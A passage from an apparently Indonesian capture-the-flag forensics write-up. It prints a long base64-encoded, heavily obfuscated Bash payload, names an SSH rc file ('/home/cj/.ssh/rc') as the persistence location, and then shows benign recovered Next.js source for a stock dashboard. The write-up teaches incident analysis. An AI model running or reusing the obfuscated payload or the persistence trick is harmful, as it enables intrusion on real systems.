fSAgJHsqXl59cHIiIidpJ25cdGYgICJceCQoICAke0AlJVVyKkM0fSAgICR7Kn59ICAiJHtALH0icFxyJ2knbnRmICAgJXMgJy1KO1AnICIke0AvLGhBY1dRfSIgfCAiJHtAJSUjTENsOH0iICR7Kn5+fSAgbScnJCdceDY0JyRANVxzdSIiJCdceDZkJyAiJHtAXl59IiAgfCAkeyovX1woXH0kOC88NjdMNTh9ICR7KiN5PFpQayosVn0gICAnJyQnXHg2Myd1JHsqfXQgLWIgICAkKCggICAoLSgtKC0yMiMxLS03IzEiMSIpKyIyIiR7Kix9IzEkeyovXi5RS1xmOy9AXCkmMHw+XGAmfTEpKSApKS0kKCggKCgtJHsqIyMyS1xbdVVFfTMkeyosfSMxIjEiKyItIjU3JHtAJSVQb1x7OzsqfSMkeyovSjBRQWx0XHt9MikrMiIzIiNiKSApKSAiJHtALH0iICAgKSIgJHsqLzMlSEM1Vi96XCJZQH0gICAkeyolJTVSSVx9X3QkfSAgICYmICR7KiUlfjpFZz9cIkgqfSAgICcncFxyaW4ndCdmICAgIlx4JCggICR7Ki8vXGA0aiR4elxddS9XRUBsc2N9IFxwXHIkJ1x1MDA2OW4nXHQiImYgICVzICdqOE85Zk54dycgIiRAIiAgIiR7QC9SKm9cIVwhL1woJjNmfSIgfCAgICR7QF5efSAgICRAICAiIiIke0AvL2k4eT42SX0ibSQnXDE0NCciIjVzInUibSAgJHtAJVlPYT5NUEh9ICB8ICAgJHsqIyNxeVVDWUF+fSAgIGN1dCAtYiAgICQoKCAgKCgiMSIkeyosLH02IyR7Kn0xLSIyIiIke0AvVi15K19Wfi9XbEUxSyp9IjAjMikrIjQiIyIxIjEpICAgKSktJCgoICAgKC0oLSg0JHtALy9menM+LUNrc30jJHtAL015RkFpRH0xMC0iLSIiMyIjMjApKzIiIyIxIjAiMSkpICkpICR7Kn59ICAgJHsqIyNvMk5LMH0gICApIiAgIiR7QH5+fSIgICAiJHtAfn59IiA7ICAgJHsqLy9kZzpTK0NufSAgIFxwciIiaW50JydmICAgIlx4JCggICIke0AjXCFsSkFsbTR9IiAgXHByaW50ZiAgICVzICdtbDhCS0pzJyAgICR7Kix9ICR7KiwsfSAgfCAkeyosLH0gJHsqXn0gJCdcdTAwNmQnIiIkeyovLUlrb1xdRy8lLDlOQDI2NH1kIjUiXHMnJyJ1IiIiJHsqLCx9bSAgICR7ISp9ICAkeyovRGJiWWxkfSAgIHwgIiR7QC9cWGhQfSIgIFxjIiIke0AjI3RfeW18fXUkJ1x4NzQnICAtYiAgJCgoICAgKCgiNSIjMSIke0AlJWpyWnN9IjAtIjQiJHsqfn02IyIke0AvfkZ1dUBZXFsvZTsyRHVmfSIwKSsyJHsqfn59IyR7QCUlZHw1JmZcXXhZfTEwMCkgICkpLSQoKCAgKC0oLSgzIiMiIjEiIjAiLS0zNSMiaSIpKzIkeyosLH0yI2IpKSAgKSkgICR7Kl5efSAgJHsqXl59ICkiICAiJHtAXn0iICR7Kn0gICAmJiAgJCogcFxyJydpIm4iJCdcMTY0ZicgIlx4JCggJHsqXl59ICAgJHshKn0gICAkJ1wxNjAnJydyaSduJ3RmICAlcyAgICcjbHlkZUVdbScgICAkeypefSAkeyovL35QYzQ5RX0gICB8ICAgJHsqLy85dlNXTjUyfSAgICR7Kix9ICAgJyckeyolJTJcITd4Mit9bSQnXHUwMDY0NXN1XDE1NScgICAkeyosfSB8ICAgJHsqLy83TVxgXCJcezAvcjEwYSUsQ30gICR7Kl5efWN1IiR7QC8vPkdNNy5MLzFBMlxgYn0idCAtYiAgICQoKCAgKCgtNyMiMSIkeyp+fTEwKzUkKjkjIiR7QC8/YSNoL2hmXCFcMX0iaykrIiR7QH59IjcjMTIzKSAgICkpLSQoKCAgKCgxIiR7QCNGOCwkQEZ9IjYjJHsqLy9TSU86L3w1VFl9ZSoiLSI3IyR7Ki8vUVwpPD1cIWw4L1dkTlx9X159MSIxIikrJHtALH02JHsqfn00IzIke0AlNzReczF9ZikgICApKSAgICR7QH5+fSAgJHtAXl59ICkiICAke0AjI0tmVlRXTH59ICAmJiAiJHtAfn59IiAgICR7KiMjQlBCX09ERnF9ICAiIidwJ3JpbiQnXHg3NCdmICJceCQoICR7Kix9ICR7ISp9cHInaSduJyd0JCpmICAlcyAnX1ArOV0nICAgJHsqXn0gJHsqJSViXCE5Xzc6fnF9ICAgfCAgICR7Kn59ICR7KiUtOFkkbn0gIiIibSInJ2QiNSInJ3N1JycnbScgICIke0AvL3g5XCJqYXoyL2JPSDlxLn0iICAgfCAgICIke0BeXn0iICAgY3V0ICAgLWIgJCgoICgoLTMke0AsLH0jMSIke0AsLH0iMCoxOCIjIiR7Kn0yKSsiJHtAIyxxQmMsNVY3fSIxOSNkKSAgICkpLSQoKCAoKCIke0AlSCNcLTJccn0iMTUiIyIxKi0yMSMiMSIpKzQjIiR7QCx9IjIiJHtAfSIxKSAgICkpICAkeyovI3Z3Xy86M3M5PC1qMH0gIiR7QC8vP01QQTklLnIvZT9GREV9IiApIiAgICR7QCN6XH03ckh3RkB9ICAmJiAgJHsqLy8rK0hcXVN9ICAgJHtAI1x9Y2xjSE19ICAncCdyIiIkJ1x4NjknXG5cdGYgIlx4JCggICAkeyovXCJAaDMlfSAgJCdceDcwclwxNTEnIm4iJ3QnZiAgJXMgJ2VTIT1MJyAgJHsqLH0gICAkeyosfSB8ICR7KiwsfSAgIm0iJHtAJUlCdGNEb31kNScnJCdcMTYzJyIidScnbSAiJHtALy86dzBCVi9YVFwifmR9IiAgIHwgICAkeyojI1BoLVwpZn0gICAiJHtALCx9IiBcY3UidCIgIC1iICAgJCgoICAgKCgiLSI2IzEwKiQqNCMxIjAiKSskeyolJSolMFxbWH0zIjAiIyR7QCNcKFwhbk1vbFx9fTE5KSAgICkpLSQoKCAgKCgtOCMyKzcjIjEiIiR7QH59IjApKzExIyIxIjApICAgKSkgICAkeypeXn0gJHtAL3hccEMzL1dOY3Uja1xbLH0gICkiICAgJHsqXl59ICA7ICAke0AsfSAkeyolOzUxVkFZfSAgJCdceDcwJyIiJ3InJCdceDY5J1xudCdmJyAgIlx4JCggJHshKn0gICR7QH59ICAgXHByJydcaSR7QCx9bnRmICAlcyAgJ1ZuUWZRP1FhJyAgICR7Kl59ICR7QC8zbHltL1x7PURrOHR9ICAgfCAgICR7KiwsfSAgJydtZDUiIiQnc1x4NzUnJCdcMTU1JyAgJHsqIyM1cWpcYCxjXkJ9ICAgfCAgJHtAXl59ICAgJHsqfn59ICBjInUiJHtAJWhfJEJfdWh9dCAgLWIgJCgoICgtKC0oIiR7QCwsfSIzIjMiIiMiMi00IjEiIyIxIikrNiIjIiQqMCkpICkpLSQoKCAoKCQqLSI0IjcjIjEiKiR7Kn5+fTYxIzApKzIkeyolalY3KnNAfTIjIjIiKSAgKSkgICAkeyovL3dcKVN2T1xnL1x9cjlpfSAgICR7Ki8vJUpeWDUzPi88NyVcXTZBfSApIiAgICR7Kl5efSAmJiAgJHsqLz5xRHB0fSAgIiR7QF59IiAgICIke0AlJVhUc1whK1F9InAiIiQnXDE2MmknIiIkJ1x4NmUnInQiIiIkJ1x1MDA2NicgICJceCQoICAgJHtAIzsuUmY/WHB9ICAgJHsqLy8uKlc/XHssL25ackpiSE19ICAiIidwJyIicmluXHRmICAgJXMgICAnUj5sWjZ9WVEnICAgJHshQH0gJHtALy9cIXxcIjJebD1cIn0gICB8ICAiJHtAJTlFb3h9IiAiIm0ke0B+fn1kXDUicyIndSckJ1x4NmQnICIke0AvUSM7XCgvPzxTO30iICB8ICAkeyp+fn0gICBjdXQgIC1iICAkWyAgICgoMiR7Kl59OSIjIjAtLTE3IzEpKzMjIjIiMSkgXS0kWyAoKC0iNCIjMSIzIisyMCMke0AvOjhfcXxDL3xcKGZcfX1lKSsiMiIjMTApICAgXSAiJHtAXn0iICkiICR7QC8vOUpQSjcuLTt9ICQqICAgOyAgJHsqXn0gICBwXHJpIiR7QF5efSJudCdmJyAiXHgkKCAiJHtAL25yPyNqXCFSUn0iICAncCdyaVxuIiJ0ZiAgICVzICc/PChCRycgICAkeyosfSAgfCAkeyovL09MVlo1Ty9PNkMldn0gICIke0AvL1F8TU5+VlZYLzo/K1x9XGBxfSIgICBcbSdkJzVzJyckJ3VcMTU1JyAgICR7Kn0gfCAgICR7Kn59ICIke0AsLH0iICAgIiJjdSIidCAgIC1iICAgJFsgICgoLSI1IiR7QCU2K1laZ30jJHsqLH0xJHsqI1woay5FcFx7JCZ9MCs4IzEwKSs1NCNnKSBdLSRbICAgKCgtMyMxMi02IzEwKSs0IjAiIyJ2IikgIF0gJHsqfSAgICRAICApIiAgJHsqLCx9ICAgIiR7QCwsfSIgICAmJiAgICR7QH5+fSAgIiR7QH59IiAgICdwJyQnclx1MDA2OScnJyQnXHg2ZSd0ZiAgIlx4JCggICAkeyovdDFcKWR9IFxwcicnJCdcMTUxJ24kQHRcZiAgJXMgICAnfCM2W1snICAgJHsqfn59ICAgJCogfCAkeyovL2M8ZUouWTovREBfY3B9ICAgJHsqLCx9ICAiIidtJ1xkNXMkeyp9dScnXG0gJHsqfn59ICB8ICR7Ki8vXCxcIVxgeTNNL0ozUlN9ICIke0AvaE9nPGJLLzdudXREMVJ9IiAgYyR7QC8vZnpPYk9cIjt9dSIke0AvL1wpYztcfSNoP30idCAgIC1iICAkKCggKCgkeypefS0yIzEiJHtALCx9IjEqIiRAIjExIyIxIikrMyMyIjEiMCkgICApKS0kKCggICgoNSMxMCstNjIjJHtAfn1lKSsiNSI1I3MpICAgKSkgICAkeyEqfSAkeyosfSAgICkiICAgJHtALH0gOyAgICR7QC9NXChuOXprdjgvWDhsamxcIn0gICcnInAiJydyaW50IiInZicgICAiXHgkKCAgICR7ISp9ICAke0B+fn1wJCdcdTAwNzInaScnIm4idCQnXDE0NicgICVzICAgJ1U3P3dVWk4nICAgJHsqLy9aSTlyMGh8Nn0gJHtAfn59ICAgfCAgICR7Kl5efSAgICIke0AjI01cXWdxSEpGfSIgICAiIm0keyolU140QW4+XCJ9ZCQnXDY1cyd1bSAgICIke0BeXn0iICAgJHsqJSVubC58fSAgIHwgICQqICIke0AvV1whO2hTL3VzX1wpYS59IiBcY3UndCcgLWIgJFsgICAoLSgtKC0iMyIkeyp9IzIxKiIke0AlXFlmLjBUK30iLSR7Kn5+fTUjMTMpKzU1IyJ2IikpICBdLSRbICAgKCgyIiR7QF5efSIjJHsqXl59MTEwIjEiKi0iMSI5JHsqLH0jJHsqfTEpKyR7QF59NiIjIjEwJHshKn0zKSAgXSAgJHsqfn0gIiR7QCMxKkVffSIgICApIiAgICR7QF59ICR7KiUlUlxdb2EwXCJ9ICAmJiAgJHtAXl59ICBwcmkiIm50IiJmICJceCQoICR7Kn59ICAgcCR7ISp9ciIiaSduJyd0J1xmICAlcyAgICd9PE9RfG1kUScgIiR7QH5+fSIgIHwgJHsqIztSQGhxXFx9ICBcbSIiZDVzJCdcdTAwNzUnJ20nICAkeyojciVeV30gfCAgJHsqL1EkQ1wlXCI9cC8mREFPfSAgJHtALy8uQjhQOC8teT1+Jn0gICAiIiJjIiQqdScnIiR7QF5efSJ0IC1iICQoKCAgKCgtNSMiMiIrLTQjMTMwKSs2MyNaKSApKS0kKCggICAoKCR7Ki8vYUhUTFxgWSwvXGBiUFAqfS0yNyMiZCIrMTIjMjkpKzMjIiR7QC8vJUFxZ2Z3fSIxMTApICApKSAgICIke0AvLysuLWNcIi84fF5lYjl9IiAgJHtALH0gICkiICR7QF5efSAgIDsgICR7IUB9ICAgJHsqJXZKPU5XTVwpfXAkeyFAfXJpXG4ndCckKmYgICJceCQoICAkeyovTDorPUJWNG19ICAiJEAiIHAnJyQnXHg3MicnJ2kkJ1x1MDA2ZScnJyIke0AvL1woaztud1wpL1VZMThpTk19InQiJHtAfn0iZiAgJXMgJ1VWYmInICIke0AvXChILVM/b3x9IiAgIHwgJHsqXn0gIiR7QC85czw5IzQvUVxSUX0iICBtZDUiIiIke0BeXn0ic3UkJ1wxNTUnICAkKiAiJHtAJSVtbXBPJFB9IiB8ICAiJHtAXl59IiAgICR7QCx9ICAgJEBjJCdcMTY1JycnIiR7QCUlXF1cYFZUYUBHXCJ9InQgLWIgJCgoICAoKDQjMTAqMzEiIyIwKSszNiNtKSAgICkpLSRbICAoLSgtKC0iMiIjMTAiMCIiMSIqJHsqI1woVD9cKSsyQjV9LTYjMSIwIikrMyIjIjEwIjEiMSkpICBdICAgJHsqLCx9ICkiICQqICA7ICAgJHtALy8uTjBKcS9NXCF+bUVzb1F9ICAgJ3AncmlcbiJ0ImYgIlx4JCggICAkeypefSAgIiR7QC8vJW44OURYX30iICBwJHsqfn1yXGluJHsqLy9IQ1lyUVo0UC9vTkRceyV9dGYgICAlcyAnN0c4WF1HJyAgICIke0BeXn0iICAkeyosfSAgIHwgJEAgbWQ1IiIiJHtAIyN+QFhuK2dRcH0ic3VtICR7KiwsfSB8ICAke0AsfSAgICR7QC8yRFwicVxdfSAgICIiY1x1J3QnICAtYiAgJFsgKC0oLSgxOCMyNi0tIjIiNyMkQDFqKSsiJHtAL2ZcW1wpNHN3fSIzJHtAJVJUdVxbIzJ9MCIke0AjblxSXFtcIlgzWH0iIzIxKSkgIF0tJFsgICgoIiR7QCx9Ii0kKjIkeyovL3NcXTN1dS9cKWN+TEAjPn0yIzEtLTQjIiR7QCNfPkVuSDUzfSIxMCkrIjEiIjQiJHsqLy9cXUc2Rn0jMSR7KiwsfWIpICAgXSAkeyovL1xINH4vXHt+XCFcIURAfnN9ICAkeyolJCZcIXp3c1x7eH0gKSIgICR7Kn59ICR7QCNlbn4qfSAgOyAkeyovMFhofi9kZ15cfVl9ICAke0B+fSAgICQnXHUwMDcwJycnciQnaVwxNTZ0ZicgICJceCQoICIke0AvL21DXCJcKX0iIFxwJCdcdTAwNzJcMTUxJyIke0AjU0M4XCh9Im50ZiAgICVzICAgJ3JLMmlpQUwnICAkeyovL2VcIiN1RH0gIiR7QCx9IiB8ICAgJHsqfSAnJ1xtZFw1XHN1IiInbScgICR7QH0gfCAgICIke0AjNFxgRWxTPTZHfSIgICR7Kn59ICAiJHtAJSVtMElZXFtecVxgfSJjdXQgLWIgICRbICgoLTQke0BeXn0jIjIiMCstIjUiIjUiIzEpKzcjIjIiMCkgXS0kKCggKCgtMiMxMSotNjMjMSkrMiR7QH59IzExKSApKSAgJHsqXn0gICR7QC9PZDdce1ljL2ElZVhnfSApIiAgJHsqLy95WmVcYDhwQ30gICAmJiAgJHsqJSVcIVRxWFRMSm99ICAgcCIiJCdceDcyJ1xpIiJuJyd0ZiAiXHgkKCAke0AvL3k+OFMvZk04WH0gIiR7QCwsfSJwJydccmluIiR7QC8vXClWWkllaU19InQnZicgJXMgICAnLk9EU31+UycgICAkeyovL1xbKlNcImF9ICAgfCAgICIke0B+fSIgICR7KiM8UU9cXVwiVjd9ICAgJHshQH1tJCdceDY0JyRbICgtKC0oJHtAXn01IyR7Ki8vaFlcInJULnxcey9aSlZJfTEwLS0iMyIjMTAwKSske0AvL1I4RTBXSjMrLz5XLFxAfTQiIyIiMiIxKSkgXXN1bSAgJHtAfn0gICB8ICR7KiVlM1woRFIuVn0gICBjIiR7QF5efSJ1JHsqfn59dCAtYiAgJFsgKC0oLSgiMSIiNiIjMSIkQCIwLS0keyolJUN5T1x9Zm9MfTgkeyolQ3dQVVxgZmF9IzMkeyosLH0wKSs1IzQke0AlJV98QVp9MykpIF0tJCgoICAoKCR7QH59MyIke0B9IiMkeyolMkY7Yjx9MjErMiMxIiR7QC8jU0lrbW19IjAxKSs1IzEkeyojI0dcKHZvKn0xKSAgKSkgICR7QCVcIlFXXH1ce1YmXCl9ICkiICAgIiR7QH5+fSIgICR7KiNzejIzd259ICA7ICAgJEAgICAkeyojVy1IdnVjS30gICBccFxyImkiXG4kJ3RceDY2JyAiXHgkKCAgICR7QH59ICAgJHshKn0gJyckeyp+fn1wJydyaW5cdCcnImYiICVzICAgJ0ojfC0nICAkeyovLzdYXChoXGBPL1x9TUElcGp9ICAgfCAgJHsqIyNTX1woWE98fSAgbVxkNXMiIiQnXDE2NScnbScgICAiJHtAfSIgIHwgICAkeyp+fSAgICR7QC9vKlwpYn0gICBjdXQgIC1iICAgJFsgICgtKC0oMiMxMSIwIiokeyp9MiMxMDEpKzQ3I2MpKSBdLSQoKCAgICgoJHsqL2NEJWE0fH0zJHtALy95UT1cKX0yIzIrJHshKn02MyMiYSIpKzMjIjIiMSkgICApKSAkeyovL0dZXCExTi9sb0xpb3ZjfSApIiAgJHtALH0gICYmICAiJHtAIyNnJkMlfSIgICAke0AsfSAkeyovWERKMmp1XCkqfXAnJydyJycnaScnXG4kJ1wxNjQnXGYgIlx4JCggICAkeypeXn0gICAkJ1x1MDA3MCcke0AjcH5CU1pvRn1yJHtAXl59aW50IiR7QH59ImYgICAlcyAgJyMyXC4nICAgJHtALy9tY1xdXCgwbys/L2hcXWtpN1xcfSAgICR7Kix9IHwgICAkeyovcG9sOUJ0REh9ICAibSIkJ1wxNDQnIjUiJycncyckeypeXn11JydcbSAgICQqICR7Kn59IHwgICAiJHtAfn59IiAgXGMkJ1x4NzUndCAgLWIgJCgoICAgKCgyIyIxIjAkeypeXn0xKiR7Ki9cITo0a1woPC9ISWQ7VDxoOH0tJHtAL2txP0cwfTYjIjEiIjAiKSs2NCNQKSAgICkpLSQoKCAgICgtKC0oNDQjInUiLS0keyovP0ZiWVZ9MjgjMSI0IikrMzcjMTMpKSApKSAgJHtALH0gICAkeyp9ICkiICIke0AlJXEtNFc5WH0iICAmJiAgJHtAXl59ICAgIiR7QC91N1RIOHovI0M2c15KLn0iICAgXHBcclxpJCdcMTU2J3QkeyosLH1mICAgIlx4JCggICR7KiU2XnFOfSBccHJpJHtAfW4iJHtALCx9InQnJ2YgICVzICd2dk9BV1Z3RScgJHtAL1QweStqTFwtLypLMFxbfSB8ICR7Ki9tLFx7R2d9ICIke0AvL0diR0RtY2pmfSIgIiJcbWQnJzVzJHtAfn59dW0gJHsqIyNcRF58fSB8ICAgJHshQH0gJHsqfn1jdSJ0IiAgIC1iICAgJCgoICAoKDIkeyFAfSMxMDAqLTUxIyIxIikrMzEjaCkgKSktJCgoICAoKCR7Kix9LTQjIiR7QC81Lk9pLTFpUX0iMSIwIiotMyMxMCkrIiR7QF59IjYiIyIiJHtAIyN0bGFcKUx9IjIpICAgKSkgICAke0AlJXJSJUx+fSAgIiR7QCwsfSIgICApIiAke0AlQGlcIW5EfSAgICR7Ki8valA7XH19ICAgJiYgICAkeyosfSAkJ1x1MDA3MHInJHsqIyQ6elxgJDI5fWluJ3QnXGYgIlx4JCggICAiJHtAfSIgJHtAJSVce1woXCheQjt4Nn0gICAnJ3AkJ3JcdTAwNjknIiR7QC9wUjFML09obyRcImd9Im50ZiAgICVzICd2Vjp8fV0nICAgJHsqfn59ICB8ICAkeyovblwhRlxbMzRIL2E+SUFoUn0gICBtZCIiNSIiJCdcMTYzJ3UnbScgICAkeyp+fn0gJHsqLy8+RDczcC9NaV4mT30gfCAiJHtALy9nVWxcfVc+bnAvYS0mXCJ9IiAgIiJcY3UnJ1x0ICAgLWIgICRbICAoLSgtKDIjIiRAIjEwIjAiMCoyIzEwIjEiKSs2MyNsKSkgIF0tJCgoICAoLSgtKDYzI2ItJHsqXn0tIjIiMSMke0AlJTpcVTp4fTEzKSsiMyIjMTIwKSkgICkpICAgJHtALy87MT5zeGZ9ICkiICR7IUB9ICIke0AvL1RTS3pYMH0iICAgJiYgICAiJHtAIz5cKDBUfSIgIiIncCciJHtAfn0icmkiJHtAIyNlUnZiXn0ibnQnJydmJyAgIlx4JCggIiR7QH5+fSIgIHAkeyp+fXIkeyojQTdcITx9aScnXG4kJ1x4NzQnXGYgICVzICdgREFkJyAgICR7QCMjPWc0en0gICIke0AvXGBxSFA5aEAvKkY6NzR9IiAgfCAgICR7Ki8mR1x7VH0gICAkeyp9bSIke0AvL3J3emJ5fSJkNVxzXHUibSIgJCogfCAkeyFAfSAgJHsqLy9kQlxgUEp9ICAnJ2MkJ1x4NzUnIiJcdCAgIC1iICQoKCAgKCgke0AvL1x7bVxdYnNmSm0vbzhmTGM2Li19LTQiIyIxIiR7QF5efSIwLS0iMyIke0AsfTIjIiRAImUpKyR7Ki8vXCgjKzEvSiM1V05EXCEzfTIkQCMxMTApICAgKSktJFsgICgoJHsqJWR1MEE3fS00IiR7QF59IjUjYystNiIke0AsLH0iIyIxIjEpKzMiMSIjMSI1IikgIF0gICR7Kn0gKSIgICAke0AlbkBXa3o5Jkl9ICAkeyovLztSTSojcHN9ICAgOyAkeyojXClnNFx7RE5efSAkeypefSBccCJyIlxpXG50XGYgIlx4JCggJHsqLy9eXF1eXH1PYSUqfSBwciQnaVx1MDA2ZSd0ZiAlcyAgICdyUjBpXTVDRScgJHsqLH0gJHsqfSB8ICAke0AvL0FrPipePl59ICIke0AjI1FwZVxcfSIgIG0nJ2Q1cyR7QF59dSIke0AjIyNQTlJ9Im0gJHsqXn0gICAkeypeXn0gIHwgICR7Ki8vLmpnXF1SXH1+fSAgJHtAI040eEB9Y1x1InQiICAtYiAkKCggICAoLSgtKDQke0AjSkBPdVpSX2h9NSIjImQtJHsqLH0tMyIyIiMkeyp+fWcpKzQiOSIjaSkpICkpLSRbICgtKC0oMiMxIjAiJHsqLCx9MSIwIjAtIjIiNSMxKSske0AvJUBaQDV9MyMiMiIke0AjWT9vXn0xKSkgICBdICAkeyojIzllXCFCczN9ICR7Kn59ICApIiAgICQqICR7QC8vXCJPUWE1QDYmL0Vzd1x7IzdrfSAgJiYgICAkeyojIypnSlxgfSAkKiBwJCdcdTAwNzJpbicndCckJ1wxNDYnICJceCQoICR7IUB9IHAiIlxyJHsqXn1pbnQke0AvL2J0UD0wVS8tSThNM2VJfWYgICAlcyAgJyZ0d0VLbFc5JyAgJHsqIyNucjtcKWpyYWt9IHwgICAke0AlQnNKQn0gICBtJCdcMTQ0XHUwMDM1JyIic3VtICAgJHtAJVxOdztnNH0gICB8ICAkeyp+fn0gICIkQCIgY3Uke0B9dCAgLWIgJCgoICgoJHsqfn59NCR7ISp9NyNhKi01IzEiMyIpKzMkeyEqfTcjMnopICApKS0kKCggKCgyIzEwMDAtJHshKn0tIjMiIjMiJHsqIyNIc1J+XkZ9I2cpKzQjMSIyIikgKSkgICAke0AlMmxod2xLeX0gICR7QCwsfSApIiAgICR7KiV6OlwofGl9ICAke0AvL1ZAXFs4Q3RcIS9UKy47XChwSn0gICYmICAkeypefSAgICIke0AvN1wpQHgvV3V8M30iICcnJCdcdTAwNzByaSdudCcnZiAgICJceCQoICAiJHtALy9SRFh0a24vLnYqXFtZeH0iICAgJHsqIyNHRmptXn0gICAnJyR7KiVcW3NKc0VZfXAkJ1x1MDA3MmknJ24ndCIiZiAgJXMgJ1NjeWAnICAgIiR7QH59IiAgfCAiJHtALy9BfiNLL3Z6PmV0JVp9IiAgbSR7QC8vJThYTiU6ci87QUJCb31kIiIkJzVcdTAwNzNceDc1JycnIm0iICAkeyovZVBCZ2d8XH19ICAgJHsqXl59ICB8ICAiJHtALH0iIGN1IiJ0ICAtYiAkWyAoKCItIjQ5I2ItLSIzIiR7KiVEVGpCfSMyMCkrOSIke0AlJVR+P0cyfSIjMzIpICBdLSQoKCAoKDgjJHsqfn59Mi0tNiMxMykrMiI4IiR7QCNzSys8VSZDfSNlKSApKSAgICR7Kl5efSAgICR7KiwsfSAgICkiICAgJHsqLy91YWtLS0pNLyRSXCg5PUl9ICAgOyAgIiR7QH0iICIke0AlblRid1xdfSIgICAgKSIgICR7IUB9ICAg
EOF⏎
```

jadi jawabannya adalah `/home/cj/.ssh/rc`

Answer: `/home/cj/.ssh/rc`

## Q6: It looks like the exfiltrated directory files were all being shredded. Please provide the original metadata title of the web application (in layout.tsx file), the total of the stock sectors and the total of the companies!

Jujur disini gw lupa njir gimana cara decrypt nya :v, efek REPL cik + udah lama baru dibuat wu beneran nya aowkawok, ya anggap aja ini timeskip, pokoknya kita disini harus ngedecrypt buat bisa akses isi asli dari direktori `company_secret`, soalnya kalo cuma dari mount, itu isian nya kosong.

kita bisa cek di `/app/layout.tsx`


```tsx
import './globals.css'
import type { Metadata } from 'next'
import { Inter } from 'next/font/google'

const inter = Inter({
  subsets: ['latin'],
  weight: ['400', '500', '600', '700', '800', '900'],
})

export const metadata: Metadata = {
  title: 'Saham Bos 2025 - Stock Market Dashboard',
  description:
    'Professional stock market portfolio viewer and analytics dashboard',
}

export default function RootLayout({
  children,
}: {
  children: React.ReactNode
}) {
  return (
    <html lang="en">
      <body className={inter.className}>{children}</body>
    </html>
  )
}
```

dan `page.tsx`

```tsx
'use client'

import { useState, useEffect } from 'react'
import {
  TrendingUp,
  TrendingDown,
  Activity,
  BarChart3,
  PieChart,
  LineChart,
  ArrowUpRight,
  ArrowDownRight,
  RefreshCw,
} from 'lucide-react'
import { Card, CardContent, CardHeader, CardTitle } from '@/components/ui/card'
import { Tabs, TabsContent, TabsList, TabsTrigger } from '@/components/ui/tabs'
import StockTable from '@/components/stock-table'
import SectorChart from '@/components/sector-chart'
import PortfolioOverview from '@/components/portfolio-overview'
import MarketHeatmap from '@/components/market-heatmap'
import TopMovers from '@/components/top-movers'

export default function Home() {
  const [marketData, setMarketData] = useState({
    totalValue: 0,
    dayChange: 0,
    dayChangePercent: 0,
    totalStocks: 0,
    gainers: 0,
    losers: 0,
  })
  const [isRefreshing, setIsRefreshing] = useState(false)

  const generateMarketData = () => {
    const baseValue = 1250000000
    const variation = Math.random() * 100000000 - 50000000
    const totalValue = baseValue + variation
    const dayChange = Math.random() * 40000000 - 20000000
    const dayChangePercent = (dayChange / totalValue) * 100

    setMarketData({
      totalValue,
      dayChange,
      dayChangePercent,
      totalStocks: Math.floor(Math.random() * 10) + 35,
      gainers: Math.floor(Math.random() * 15) + 15,
      losers: Math.floor(Math.random() * 15) + 10,
    })
  }

  useEffect(() => {
    generateMarketData()
  }, [])

  const handleRefresh = () => {
    setIsRefreshing(true)
    generateMarketData()
    setTimeout(() => setIsRefreshing(false), 1000)
  }

  const formatCurrency = (value: number) => {
    return new Intl.NumberFormat('id-ID', {
      style: 'currency',
      currency: 'IDR',
      minimumFractionDigits: 0,
      maximumFractionDigits: 0,
    }).format(value)
  }

  const formatPercent = (value: number) => {
    return `${value >= 0 ? '+' : ''}${value.toFixed(2)}%`
  }

  return (
    <div className="min-h-screen bg-gradient-to-br from-slate-950 via-slate-900 to-slate-950">
      <div className="border-b border-slate-800 bg-slate-950/50 backdrop-blur-xl">
        <div className="container mx-auto px-4 py-6">
          <div className="flex items-center justify-between">
            <div>
              <h1 className="mb-1 text-4xl font-black tracking-tight text-white">
                SAHAM BOS <span className="text-emerald-400">2025</span>
              </h1>
              <p className="font-medium text-slate-400">
                Real-time Market Intelligence Dashboard
              </p>
            </div>
            <button
              onClick={handleRefresh}
              className="flex items-center gap-2 rounded-lg bg-gradient-to-r from-emerald-500 to-teal-500 px-6 py-3 font-bold text-white shadow-lg shadow-emerald-500/20 transition-all hover:from-emerald-600 hover:to-teal-600 hover:shadow-emerald-500/40"
            >
              <RefreshCw
                className={`h-5 w-5 ${isRefreshing ? 'animate-spin' : ''}`}
              />
              REFRESH DATA
            </button>
          </div>
        </div>
      </div>

      <div className="container mx-auto px-4 py-8">
        <div className="mb-8 grid grid-cols-1 gap-6 md:grid-cols-2 lg:grid-cols-4">
          <Card className="border-slate-700 bg-gradient-to-br from-slate-900 to-slate-800 shadow-xl">
            <CardHeader className="pb-3">
              <CardTitle className="text-sm font-bold tracking-wider text-slate-400 uppercase">
                Portfolio Value
              </CardTitle>
            </CardHeader>
            <CardContent>
              <div className="mb-2 text-3xl font-black text-white">
                {formatCurrency(marketData.totalValue)}
              </div>
              <div
                className={`flex items-center gap-1 text-sm font-bold ${marketData.dayChange >= 0 ? 'text-emerald-400' : 'text-red-400'}`}
              >
                {marketData.dayChange >= 0 ? (
                  <ArrowUpRight className="h-4 w-4" />
                ) : (
                  <ArrowDownRight className="h-4 w-4" />
                )}
                {formatCurrency(Math.abs(marketData.dayChange))} (
                {formatPercent(marketData.dayChangePercent)})
              </div>
            </CardContent>
          </Card>

          <Card className="border-emerald-700/50 bg-gradient-to-br from-emerald-900/40 to-emerald-800/40 shadow-xl">
            <CardHeader className="pb-3">
              <CardTitle className="flex items-center gap-2 text-sm font-bold tracking-wider text-emerald-300 uppercase">
                <TrendingUp className="h-4 w-4" />
                Gainers Today
              </CardTitle>
            </CardHeader>
            <CardContent>
              <div className="mb-1 text-4xl font-black text-emerald-400">
                {marketData.gainers}
              </div>
              <div className="text-sm font-semibold text-emerald-300">
                Stocks moving up
              </div>
            </CardContent>
          </Card>

          <Card className="border-red-700/50 bg-gradient-to-br from-red-900/40 to-red-800/40 shadow-xl">
            <CardHeader className="pb-3">
              <CardTitle className="flex items-center gap-2 text-sm font-bold tracking-wider text-red-300 uppercase">
                <TrendingDown className="h-4 w-4" />
                Losers Today
              </CardTitle>
            </CardHeader>
            <CardContent>
              <div className="mb-1 text-4xl font-black text-red-400">
                {marketData.losers}
              </div>
              <div className="text-sm font-semibold text-red-300">
                Stocks moving down
              </div>
            </CardContent>
          </Card>

          <Card className="border-blue-700/50 bg-gradient-to-br from-blue-900/40 to-blue-800/40 shadow-xl">
            <CardHeader className="pb-3">
              <CardTitle className="flex items-center gap-2 text-sm font-bold tracking-wider text-blue-300 uppercase">
                <Activity className="h-4 w-4" />
                Active Stocks
              </CardTitle>
            </CardHeader>
            <CardContent>
              <div className="mb-1 text-4xl font-black text-blue-400">
                {marketData.totalStocks}
              </div>
              <div className="text-sm font-semibold text-blue-300">
                In your portfolio
              </div>
            </CardContent>
